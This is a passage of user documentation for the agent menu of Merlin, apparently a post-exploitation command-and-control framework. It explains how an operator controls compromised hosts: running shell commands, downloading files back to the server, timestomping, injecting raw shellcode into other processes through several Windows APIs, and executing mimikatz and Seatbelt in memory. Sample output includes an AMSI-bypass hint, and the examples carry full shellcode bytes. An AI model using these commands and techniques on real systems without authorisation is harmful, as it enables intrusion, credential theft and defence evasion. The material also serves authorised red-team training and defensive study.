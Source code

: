 ###########
Agent Menu
###########

The agent menu context is used to interact with a single agent. The Merlin prompt will include the word ``agent`` along with the identifier for the selected agent. Type ``help`` to see a list of available commands for the agent menu context.

help
----

.. note::
    The help menu will only show commands available to agent depending on its operating system

* :ref:`help core`
* linux_
* :ref:`help windows`

.. _help core:

core
^^^^

The ``core`` commands are available to every agent regardless of which operating system they are running on

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» help

      COMMAND  |          DESCRIPTION           |            OPTIONS
    +----------+--------------------------------+--------------------------------+
      cd       | Change directories             | cd ../../ OR cd c:\\Users
      clear    | Clear any UNSENT jobs from the |
               | queue                          |
      back     | Return to the main menu        |
      download | Download a file from the agent | download <remote_file>
      env      | View and modify environment    | env <get | set | unset |
               | variables                      | showall> [variable] [value]
      exit     | Instruct the agent to exit and |
               | quit running                   |
      group    | Add or remove the current      | group <add | remove> <group
               | agent to/from a group          | name>
      ifconfig | Displays host network adapter  |
               | information                    |
      interact | Interact with an agent         |
      info     | Display all information about  |
               | the agent                      |
      ja3      | Set the agent's JA3 client     | ja3 <ja3 signature string>
               | signature                      |
      jobs     | Display all active jobs for    |
               | the agent                      |
      kill     | Kill a running process by its  | kill <pid>
               | numerical identifier (pid)     |
      killdate | Set the epoch date/time the    | killdate <epoch date>
               | agent will quit running        |
      ls       | List directory contents        | ls /etc OR ls C:\\Users OR ls
               |                                | C:/Users
      main     | Return to the main menu        |
      maxretry | Set the maximum amount of      | maxretery <number>
               | times the agent can fail to    |
               | check in before it dies        |
      note     | Add a server-side note to the  |
               | agent                          |
      nslookup | DNS query on host or ip        | nslookup 8.8.8.8
      padding  | Set the maximum amount of      | padding <number>
               | random data appended to every  |
               | message                        |
      printenv | Print all environment          | printenv
               | variables. Alias for "env      |
               | showall"                       |
      pwd      | Display the current working    | pwd
               | directory                      |
      run      | Execute a program directly,    | run ping -c 3 8.8.8.8
               | without using a shell          |
      sessions | Display a table of information |
               | about all checked-in agent     |
               | sessions                       |
      sdelete  | Securely delete a file         | sdelete <file path>
      shell    | Execute a command on the agent | shell ping -c 3 8.8.8.8
               | using the host's default shell |
      skew     | Set the amount of skew, or     | skew <number>
               | jitter, that an agent will use |
               | to checkin                     |
      sleep    | Set the agent's sleep interval | sleep 30s
               | using Go time format           |
      status   | Print the current status of    |
               | the agent                      |
      touch    | Match destination file's       | touch <source> <destination>
               | timestamps with source file    |
               | (alias timestomp)              |
      upload   | Upload a file to the agent     | upload <local_file>
               |                                | <remote_file>
      *        | Anything else will be execute  |
               | on the host operating system   |

.. _help linux:

linux
^^^^^

These commands are only available to agents running on a ``Linux`` operating system.

.. code-block:: text

           COMMAND      |          DESCRIPTION           |            OPTIONS
    +-------------------+--------------------------------+--------------------------------+
               memfd    | Execute Linux file in memory   | <file path> [<arguments>]

.. _help windows:

windows
^^^^^^^

These commands are only available to agents running on a ``Windows`` operating system.

.. code-block:: text

           COMMAND      |          DESCRIPTION           |            OPTIONS
    +-------------------+--------------------------------+--------------------------------+
      execute-assembly  | Execute a .NET 4.0 assembly    | execute-assembly <assembly
                        |                                | path> [<assembly args>
                        |                                | <spawnto path> <spawnto args>]
      execute-pe        | Execute a Windows PE (EXE)     | execute-pe <pe path> [<pe
                        |                                | args> <spawnto path> <spawnto
                        |                                | args>]
      execute-shellcode | Execute shellcode              | self, remote <pid>,
                        |                                | RtlCreateUserThread <pid>
      invoke-assembly   | Invoke, or execute, a .NET     | <assembly name> <assembly
                        | assembly that was previously   | args>
                        | loaded into the agent's        |
                        | process                        |
      load-assembly     | Load a .NET assembly into the  | <assembly path> [<assembly
                        | agent's process                | name>]
      list-assemblies   | List the .NET assemblies that  |
                        | are loaded into the agent's    |
                        | process                        |
      netstat           | display network connections    | netstat [-p tcp|udp]
      pipes             | Enumerate all named pipes      |
      ps                | Get a list of running          |
                        | processes                      |
      sharpgen          | Use SharpGen to compile and    | sharpgen <code> [<spawnto
                        | execute a .NET assembly        | path> <spawnto args>]
      uptime            | Retrieve the host's uptime

cd
--

The ``cd`` command is used to change the current working directory the Merlin agent is using. Relative paths can be used (e.g.,. ``./../`` or ``downloads\\Merlin``). This command uses native Go and will not execute the ``cd`` binary program found on the host operating system.

| The ``\`` in a Windows directory must be escaped like ``C:\\Windows\\System32``.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» cd /usr/bin
    [-]Created job evtawDqBWa for agent a98e6175-7799-47fb-abf0-32534a9191f0 at 2019-02-27T01:03:57Z
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job evtawDqBWa at 2019-02-27T01:03:59Z
    Changed working directory to /usr/bin

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» cd "C:\\Program Files (x86)\\"
    [-]Created job gwFQhcsKJi for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2019-02-27T01:17:26Z
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job gwFQhcsKJi at 2019-02-27T01:17:30Z
    Changed working directory to C:\Program Files (x86)

clear
-----

The ``clear`` command will cancel all jobs in the queue that have not been sent to the agent yet.
This command will only clear jobs for the current agent.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» clear
    [+] jobs cleared for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

back
----

The ``back`` command is used to leave the Agent menu and return back to the :doc:`main`.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» back
    Merlin»

download
--------

The ``download`` command is used to download a file from the host where the agent is running back to the Merlin server. The file will be automatically saved in a folder with a name of the agent's identifier in the `data\agents\c1090dbc-f2f7-4d90-a241-86e0c0217786` directory.

.. note::
    Because ``\`` is used to escape a character, file paths require two (e.g., ``C:\\Windows``)

.. note::
    Enclose file paths containing a space with quotation marks (e.g.,. ``"C:\\Windows\\Program Files\\"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» download C:\\Windows\\hh.exe
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job NXnhJVRUSP for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job NXnhJVRUSP
    [+]Successfully downloaded file C:\Windows\hh.exe with a size of 17920 bytes from agent to C:\merlin\data\agents\c1090dbc-f2f7-4d90-a241-86e0c0217786\hh.exe
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»

env
---

The ``env`` command is used to interact with environment variables and has the following methods:
  * get_
  * :ref:`env set`
  * showall_
  * unset_

get
^^^

The ``env get`` command is used to retrieve the value of an existing environment variable.
The third, or last, argument is the name of environment variable to retrieve.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» env get TEST1
    [-] Created job xaSqAdQBXs for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job xaSqAdQBXs for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Environment variable TEST1=TESTINGTEST

.. _env set:

set
^^^

The ``env set`` command is used create, or overwrite, an environment variable with the specified value.
The third argument is the name of the environment variable and the fourth argument is the environment variables value.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» env set TEST1 TESTINGTEST
    [-] Created job NcyukONetb for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job NcyukONetb for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Set environment variable: TEST1=TESTINGTEST

showall
^^^^^^^

The ``env showall`` command enumerates and return all environment variables:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» env showall
    [-] Created job NzbQEytJpY for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job NzbQEytJpY for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Environment variables:
    SHELL=/bin/bash
    SESSION_MANAGER=local/ubuntu:@/tmp/.ICE-unix/3195,unix/ubuntu:/tmp/.ICE-unix/3195
    QT_ACCESSIBILITY=1
    SNAP_REVISION=148
    XDG_CONFIG_DIRS=/etc/xdg/xdg-ubuntu:/etc/xdg
    XDG_MENU_PREFIX=gnome-
    GNOME_DESKTOP_SESSION_ID=this-is-deprecated
    SNAP_REAL_HOME=/home/rastley
    GNOME_SHELL_SESSION_MODE=ubuntu
    SSH_AUTH_SOCK=/run/user/1000/keyring/ssh

unset
^^^^^

The ``env unset`` command clears, or empties, the environment variable name provided in the third argument:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» env unset TEST1
    [-] Created job hEYjNYeniT for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job hEYjNYeniT for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Unset environment variable: TEST1

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» env get TEST1
    [-] Created job IhKdCrKHEr for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job IhKdCrKHEr for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Environment variable TEST1=


exit
----

The ``exit`` control type instructs the agent to exit or die. There is no response on the CLI after the instruction has been provided to the agent. This command is also an alias for agent -> control -> <agent ID> -> exit. This is the shortest way to quickly kill an agent.
 The command will prompt for confirmation to prevent accidentally exiting the agent. If you are certain use the `-y` flag to skip confirmation.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» exit

    are you sure that you want to exit the agent? [yes/NO]:
    yes
    Merlin»
    [-] Created job LHhrzSYuGS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786


execute-assembly
-----------------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

The ``execute-assembly`` command uses `go-donut <https://github.com/Binject/go-donut>`_ to convert a .NET assembly into shellcode and then uses the ``windows/x64/go/exec/createProcess`` Merlin module to execute the shellcode.

Currently this command only supports .NET v4.0 assemblies. For more granular control, use the ``windows/x64/go/exec/donut`` module.

The command is executed as: ``execute-assembly <assembly path> [<assembly args> <spawnto path> <spawnto args>]``

The command requires the file path to the assembly you wish to execute in the ``<assembly path>`` argument. All other arguments are optional. The ``<spawnto path>`` argument is the process that will be started on the target and where the shellcode will be injected and executed. If a ``<spawnto path>`` is not provided, ``C:\WIndows\System32\dllhost.exe`` will be used. The ``<spawnto args>`` value is used as an argument when starting the spawnto process.

.. note::
    Because ``\`` is used to escape a character, file paths require two (e.g., ``C:\\Windows``)

.. note::
    Use quotes to enclose multiple arguments for ``<assembly args>`` (e.g., ``execute-assembly Seatbelt.exe "LocalGroups LocalUsers"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-assembly Seatbelt.exe "DotNet IdleTime" "C:\\Windows\\System32\\WerFault.exe" /?
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-] Created job dmAfzDPUsM for agent c1090dbc-f2f7-4d90-a241-86e0c0217786


    [+] Results for c1090dbc-f2f7-4d90-a241-86e0c0217786 job dmAfzDPUsM



                            %&&@@@&&
                            &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                            &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
    %%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
    #%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
    #%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
    #####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
    #######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
    ###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
    #####%######################  %%%..                       @////(((&%%%%%%%################
                            &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                            &%%&&&%%%%%        v1.1.0         ,(((&%%%%%%%%%%%%%%%%%,
                             #%%%%##,


    ====== DotNet ======

      Installed CLR Versions
          2.0.50727
          4.0.30319

      Installed .NET Versions
          3.5.30729.4926
          4.8.03752

      Anti-Malware Scan Interface (AMSI)
          OS supports AMSI           : True
         .NET version support AMSI   : True
            [!] The highest .NET version is enrolled in AMSI!
            [*] You can invoke .NET version 3.5 to bypass AMSI.
    ====== IdleTime ======

      CurrentUser : DESKTOP-H35RK21\rastley
      Idletime    : 00h:06m:02s:766ms (362766 milliseconds)



    [*] Completed collection in 0.122 seconds

execute-pe
-----------------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

The ``execute-pe`` command uses `go-donut <https://github.com/Binject/go-donut>`_ to convert a Windows Portable Executable (PE), commonly an .exe, into shellcode and then uses the ``windows/x64/go/exec/createProcess`` Merlin module to execute the shellcode.

The command is executed as: ``execute-pe <pe path> [<pe args> <spawnto path> <spawnto args>]``

The command requires the file path to the PE you wish to execute in the ``<pe path>`` argument. All other arguments are optional. The ``<spawnto path>`` argument is the process that will be started on the target and where the shellcode will be injected and executed. If a ``<spawnto path>`` is not provided, ``C:\WIndows\System32\dllhost.exe`` will be used. The ``<spawnto args>`` value is used as an argument when starting the spawnto process.

.. note::
    Because ``\`` is used to escape a character, file paths require two (e.g., ``C:\\Windows``)

.. note::
    Use quotes to enclose multiple arguments for ``<pe args>`` (e.g., ``execute-pe mimikatz.exe "coffee exit"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-pe mimikatz.exe "coffee exit" C:\\Windows\\System32\\WerFault.exe Testing
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-] Created job BSvJZFvbRZ for agent c1090dbc-f2f7-4d90-a241-86e0c0217786


    [+] Results for c1090dbc-f2f7-4d90-a241-86e0c0217786 job BSvJZFvbRZ


      .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
     .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
     ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
     ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
     '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
      '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

    mimikatz(commandline) # coffee

        ( (
         ) )
      .______.
      |      |]
      \      /
       `----'

    mimikatz(commandline) # exit
    Bye!


execute-shellcode
-----------------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

The ``execute-shellcode`` command is used to have the Agent execute the provided shellcode. This command became available in version ``0.6.4`` and is only supported for Windows agents.

The ``execute-shellcode`` command takes the shellcode you want to execute at the last argument. Shellcode can be provided using an absolute filepath or by pasting it directly into the terminal in one of the following formats:
  * Hex (e.g.,. `5051525356`)
  * ``0x50, 0x51, 0x52, 0x53, 0x56`` with or without spaces and commas
  * ``\x50\x51\x52\x53\x56``
  * Base64 encoded version of the above formats
  * A file containing any of the above formats or just a raw byte file

.. warning::
    Shellcode injection and execution could cause a process to crash so choose wisely

.. note::
    If Cobalt Strike's Beacon is injected using one of these methods, exiting the Beacon will cause the process to die too.

The agent can execute shellcode using one of the following methods:
  * self_
  * remote_
  * RtlCreateUserThread_
  * UserAPC_

.. _self:

self
^^^^

The ``self`` method allocates space within the Merlin Agent process and executes the shellcode.

Syntax is ``execute-shellcode self <SHELLCODE>``

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-shellcode self 505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3
    [-]Created job joQNJONrEK for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job joQNJONrEK
    [+]Shellcode executed successfully


remote
^^^^^^

The ``remote`` method creates a thread in another process using the `CreateRemoteThreadEx <https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createremotethreadex>`_ Windows API call.

Syntax is ``execute-shellcode remote <PID> <SHELLCODE>`` where PID is the Process ID you want to execute the shellcode under.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-shellcode remote 6560 0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6A, 0x60, 0x5A, 0x68, 0x63, 0x61, 0x6C, 0x63, 0x54, 0x59, 0x48, 0x83, 0xEC, 0x28, 0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48, 0x8B, 0x76, 0x10, 0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B, 0x7E, 0x30, 0x03, 0x57, 0x3C, 0x8B, 0x5C, 0x17, 0x28, 0x8B, 0x74, 0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B, 0x54, 0x1F, 0x24, 0x0F, 0xB7, 0x2C, 0x17, 0x8D, 0x52, 0x02, 0xAD, 0x81, 0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45, 0x75, 0xEF, 0x8B, 0x74, 0x1F, 0x1C, 0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE, 0x48, 0x01, 0xF7, 0x99, 0xFF, 0xD7, 0x48, 0x83, 0xC4, 0x30, 0x5D, 0x5F, 0x5E, 0x5B, 0x5A, 0x59, 0x58, 0xC3
    [-]Created job PRumZQYBFR for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job PRumZQYBFR
    [+]Shellcode executed successfully

.. _RtlCreateUserThread:

RtlCreateUserThread
^^^^^^^^^^^^^^^^^^^

The ``rtlcreateuserthread`` method creates a thread in another process using the undocumented `RtlCreateUserThread <http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FRtlCreateUserThread.html>`__ Windows API call.

Syntax is ``execute-shellcode rtlcreateuserthread <PID> <SHELLCODE>`` where PID is the Process ID you want to execute the shellcode under.

Example:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-shellcode RtlCreateUserThread 6560 \x50\x51\x52\x53\x56\x57\x55\x6A\x60\x5A\x68\x63\x61\x6C\x63\x54\x59\x48\x83\xEC\x28\x65\x48\x8B\x32\x48\x8B\x76\x18\x48\x8B\x76\x10\x48\xAD\x48\x8B\x30\x48\x8B\x7E\x30\x03\x57\x3C\x8B\x5C\x17\x28\x8B\x74\x1F\x20\x48\x01\xFE\x8B\x54\x1F\x24\x0F\xB7\x2C\x17\x8D\x52\x02\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xEF\x8B\x74\x1F\x1C\x48\x01\xFE\x8B\x34\xAE\x48\x01\xF7\x99\xFF\xD7\x48\x83\xC4\x30\x5D\x5F\x5E\x5B\x5A\x59\x58\xC3
    [-]Created job CCWrmdLIFQ for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job CCWrmdLIFQ
    [+]Shellcode executed successfully

UserAPC
^^^^^^^

.. _UserAPC:

The ``userapc`` method creates a thread in another process using the `QueueUserAPC <https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-queueuserapc>`__ Windows API call.

Syntax is ``execute-shellcode userapc <PID> <SHELLCODE>`` where PID is the Process ID you want to execute the shellcode under.

.. note::
    This method is highly unstable and therefore was intentionally not added to the tab completion list of available methods. The current implementation requires the process to have more than 1 thread. All remaining threads will have a user-mode APC queued to execute the shellcode and could result in multiple instances of execution. This method frequently causes processes to crash. Additionally, the shellcode might not execute at all if none of the threads were in an alertable state. The ``svchost.exe`` process usually provides a little better choice, but still not guaranteed.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-shellcode userapc 4824 /home/rickastley/calc.bin
    [-]Created job NPQGRntaQX for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job NPQGRntaQX
    [+]Shellcode executed successfully

group
-----

The ``group`` command interacts with server-side groups that agents can be added to and removed from.
Arbitrary agent commands and modules can be executed against an entire group at one time.

* :ref:`agentgroup add`
* :ref:`agentgroup remove`

.. _agentgroup add:

add
^^^

The ``group add`` command adds the current agent to a named group. If the group name does not exist, it will be created.
The list of available agents can be tab completed.

``group add <GroupName>``

.. code-block:: text

    Merlin[agent][336154be-9ab9-4add-96e6-69c79f1ce77d]» group add EvilCorp
    [i] Agent 336154be-9ab9-4add-96e6-69c79f1ce77d added to group EvilCorp
    Merlin[agent][336154be-9ab9-4add-96e6-69c79f1ce77d]» group add Workstations
    [i] Agent 336154be-9ab9-4add-96e6-69c79f1ce77d added to group Workstations
    Merlin[agent][336154be-9ab9-4add-96e6-69c79f1ce77d]» info

      Status                         | Active
      ID                             | 336154be-9ab9-4add-96e6-69c79f1ce77d
                    <SNIP>
      Groups                         | EvilCorp, Workstations
      Note                           |

.. _agentgroup remove:

remove
^^^^^^

The ``group remove`` command is used to remove an agent from a named group. The list of ALL agents is tab completable
but does not mean the agent is in the group. The list of existing groups can also be tab completed.

``group remove <agentID> <GroupName>``

.. code-block:: text

    Merlin» group remove 99dbe632-984c-4c98-8f38-11535cb5d937 EvilCorp
    Merlin»
    [i] Agent 99dbe632-984c-4c98-8f38-11535cb5d937 removed from group EvilCorp

ifconfig
--------

The ``ifconfig`` command will enumerate all of the host's network interfaces and return their configuration.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-] Created job SEbZZEzGeH for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job SEbZZEzGeH for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Ethernet0
      MAC Address   00:0c:29:04:29:9d
      IP Address    192.168.1.132
      Subnet Mask   255.255.255.0
      Gateway       192.168.153.2
      DHCP          Enabled
      DHCP Server:  192.168.1.254

    Bluetooth Network Connection
      MAC Address   f4:02:28:35:ae:b6
      IP Address    0.0.0.0
      Subnet Mask   0.0.0.0
      Gateway       0.0.0.0
      DHCP          Enabled
      DHCP Server:


info
----

The ``info`` command is used to get information about a specific agent to include its configuration and environment.

* Status - The agent's current communication status of either active, delayed, or dead
* ID - The agent's unique identifier that is generated on execution
* Platform - The operating system and architecture the agent is running on
* User Name - The user name the agent is currently running as
* User GUID - The unique identifier for the user the agent is currently running as
* Hostname - The name of the compromised host where the agent is currently running
* Process Name - The name of the process the agent is currently running in
* Process ID - The numerical Process ID (PID) that the agent is currently running in
* IP - A list of interface IP addresses for where the agent is currently running
* Initial Check In - The date and time the agent first connected to the server
* Last Check In - The date and time the agent last connected to the server followed by the relative amount of time in parenthesis
* Groups - Any server-side groups the agent is a member of
* Note - Any operator generated notes about the agent
* Agent Version - The version number of the running agent
* Agent Build - A hash of the git commit the agent was built from
* Agent Wait Time - The amount of time the agent waits, or sleeps, between checkins
* Agent Wait Time Skew - The amount of skew multiplied to the agent wait time
* Agent Message Padding Max - The maximum amount of random data appended to every message to/from the agent
* Agent Max Retries - The maximum amount of times an agent can fail to check in before it quits running
* Agent Failed Check In - The total number of failed check in attempts
* Agent Kill Date - The date the agent will quit running. ``1970-01-01T00:00:00Z`` signifies that the kill date is not set
* Agent Communication Protocol - The protocol the agent is currently communicating over
* Agent JA3 TLS Client Signature - The JA3 client signature. If empty then the default Merlin signature is being used

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» info

      Status                         | Active
      ID                             | c1090dbc-f2f7-4d90-a241-86e0c0217786
      Platform                       | linux/amd64
      User Name                      | rastley
      User GUID                      | 1000
      Hostname                       | ubuntu
      Process Name                   | /tmp/go-build799148624/b001/exe/main
      Process ID                     | 200769
      IP                             | 127.0.0.1/8 ::1/128
                                     | 192.168.1.2/24
                                     | fe80::b7bb:3953:682e:cb7f/64
      Initial Check In               | 2021-08-02T23:56:10Z
      Last Check In                  | 2021-08-03T00:18:55Z (0:00:05
                                     | ago)
      Groups                         |
      Note                           |
                                     |
      Agent Version                  | 1.0.2
      Agent Build                    | nonRelease
      Agent Wait Time                | 10s
      Agent Wait Time Skew           | 3000
      Agent Message Padding Max      | 4096
      Agent Max Retries              | 7
      Agent Failed Check In          | 0
      Agent Kill Date                | 1970-01-01T00:00:00Z
      Agent Communication Protocol   | h2
      Agent JA3 TLS Client Signature |

interact
--------

The ``interact`` command takes one argument, the agent ID, and is used to switch agents and interact with a different, specified agent.

.. note::
    Use the built-in tab completion to cycle through and select the agent to interact with.

.. code-block:: text

    Merlin[agent][c22c435f-f7c4-445b-bcd4-0d4e020645af]» interact d07edfda-e119-4be2-a20f-918ab701fa3c
    Merlin[agent][d07edfda-e119-4be2-a20f-918ab701fa3c]»

invoke-assembly
---------------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

The ``invoke-assembly`` command will execute a .NET assembly that was previously loaded into the agent with the
load-assembly_ command. The first argument is the name of the assembly and all the remaining arguments are passed to
the assembly for execution. Use the list-assemblies_ command return a list of loaded assemblies.
The execute-assembly_ command is different because it uses injection to run the assembly in a child process.
This command runs the assembly in the current process without injection.

.. note::
    Only CLR v4 is currently supported which can be used to execute both v3.5 and v4 .NET assemblies

.. code-block:: text

